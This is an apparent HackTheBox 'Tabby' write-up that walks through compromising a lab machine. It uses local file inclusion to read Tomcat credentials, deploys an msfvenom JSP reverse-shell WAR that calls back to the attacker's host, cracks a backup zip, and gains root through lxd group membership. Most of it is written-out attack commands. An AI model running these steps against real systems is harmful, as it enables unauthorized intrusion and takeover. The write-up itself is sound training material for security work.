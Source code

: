 ```yaml
---
title: HackTheBox Tabby Writeup
published: true
---
```


![](https://i.ibb.co/mBPb1hs/logo.png)

# []()Methodology

* nmap scan
* LFI Lead to read tomcat user credentials
* exploitation Part
* crack zip file by fcrackzip 
* user part
* Privilege Escalation

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine.**

* 8080 for apache tomcat

* 22 for ssh

* from nmap scan i know that there is a apache tomcat server.

```ruby

# Nmap 7.80 scan initiated Sun Jun 21 05:43:17 2020 as: nmap -sC -sV -oN scan.txt 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> **let's check the web page now.**

![](https://i.ibb.co/b5RHnQj/webpage-mega.png)

> **after looking at the source code i found the way to exploit LFI, let's see how.**

![](https://i.ibb.co/BNg7ZrK/lfi-param.png)

# []() LFI Part

* **from the source code i've found the url: http://megahosting.htb/news.php?file=**

> **the file parameter was vulnerable to LFI, let's check it.**

![](https://i.ibb.co/qNY5mWv/lfi-done.png)

* now we have lfi, let's check the port 8080 now.

![](https://i.ibb.co/Hp3ND9s/port-8080.png)

> from this page we know that the users data we will find it at **tomcat9/tomcat-users.xml**, let's use lfi now.

* from Apache tomcat [Docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html) i know that the file will be in **/usr/share/tomcat9/etc/tomcat-users.xml**

* if you are a linux user you will know that without any blogs because any program data will be found at **/usr/share**

> **here is the credentials for apache tomcat server.**

![](https://i.ibb.co/xfR6Rjq/user-data.png)

* username:**tomcat**
* password:**$3cureP4s5w0rd123!**

> **now we have the credentials, now the exploitation part will be done with 2 ways.**

# []() Exploitation Part

> exploitation part was very easy, we need a **war** format backdoor to upload to the server and start deploying it to get a reverse shell.

* let's generate a war file with **msfvenom**.

> **msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.xx LPORT=9002 -f war > xdev0.war**

* after generating this file we need to upload it and deploy it as a new application.

> **curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=xdev0.war"**

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby  
╰─➤  curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=/xdev0.war"
OK - Deployed application at context path [/xdev0.war]
╭─

```
> **let's start nc listener now and open this link http://10.10.10.194:8080/xdev0.war.**

![](https://i.ibb.co/pytCy44/nc.png)

* nice!

> **in this point you can use metasploit too.**

![](https://i.ibb.co/r3rWxQj/metasploit.png)

# []()USER Part

> **after some enumeration, I've found a compressed backup file and after cracking this file I used its password to escalate my privilege to the user privileges.**

* here is the backup file

![](https://i.ibb.co/nsZ1vjz/backup-file.png)

* let's crack it now with **fcrackzip**

> **fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip**

![](https://i.ibb.co/5TFBTT6/fcrack-result.png)

* let's escalate our privilege now.

> **su ash**

![](https://i.ibb.co/p2GjmMp/user.png)

* user part done!.

# []()ROOT Part

> the user **ash** is a member of **lxd local group**

```ruby

ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)

```
> **from this [Blog](https://www.hackingarticles.in/lxd-privilege-escalation/) i know the way to escalate my privileges to root privilege.**

1. **Steps to be performed on the attacker machine.**

* Download build-alpine in your local machine through the git repository.

* Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

* Transfer the tar file to the host machine

2. **Steps to be performed on the Tabby machine.**

* Download the alpine image from your machine

* Import image for lxd

* Initialize the image inside a new container.

* Mount the container inside the /root directory 

* let's start now.

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  ls
alpine-v3.12-x86_64-20201106_1805.tar.gz  build-alpine  LICENSE  README.md
╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  

```

> **let's start a python server and upload the image to the Tabby machine**

![](https://i.ibb.co/NYBx9dG/lxd-upload.png)

* now let's import our image

> **lxc image import ./alpine-v3.12-x86_64-20201106_1805.tar.gz --alias devil**

![](https://i.ibb.co/kHqxxx4/image-lxc.png)

> **lxc init devil ignite -c security.privileged=true

> **lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true**

> **lxc start ignite**

> **lxc exec ignite /bin/sh**

![](https://i.ibb.co/QrGJ4st/root-part.png)

> root flag

```ruby

/mnt/root/root # cat root.txt
cat root.txt
8eca10cfde310d8b2c7668bee56818b5
/mnt/root/root #

```

* Thanks for reading.

* Cheers!

 <script src="https://www.hackthebox.eu/badge/103789"></script>


